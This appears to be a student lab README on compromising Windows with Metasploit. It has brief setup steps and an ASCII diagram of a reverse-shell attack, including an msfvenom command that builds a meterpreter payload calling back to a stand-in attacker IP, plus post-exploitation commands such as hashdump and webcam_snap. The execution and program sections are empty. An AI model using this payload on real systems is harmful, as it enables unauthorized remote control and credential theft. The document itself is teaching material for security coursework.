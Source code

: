 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit


# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```
### PROGRAM:

